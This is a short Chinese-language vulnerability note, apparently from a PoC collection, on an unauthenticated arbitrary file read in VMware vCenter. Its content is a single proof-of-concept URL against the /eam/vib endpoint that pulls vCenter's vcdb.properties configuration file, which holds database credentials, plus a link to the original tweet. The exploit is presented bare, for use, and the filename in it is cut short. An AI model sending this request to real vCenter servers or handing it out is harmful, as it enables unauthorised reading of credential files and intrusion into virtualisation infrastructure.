 # VMware vCenter未授权任意文件读取

最后更新于：2020-10-14 11:26:15

![img](../images/VMware%20vCenter%E6%9C%AA%E6%8E%88%E6%9D%83%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/wp_editor_md_628cdb7ff003c577075aad68244e8924.jpg)
Poc:

```markup
http://x.x.x.x/eam/vib?id=c:\programData\Vmware\vCenterServer\cfg\vmware-vpx\vcdb.properti
```

原文链接：
https://twitter.com/ptswarm/status/1316016337550938122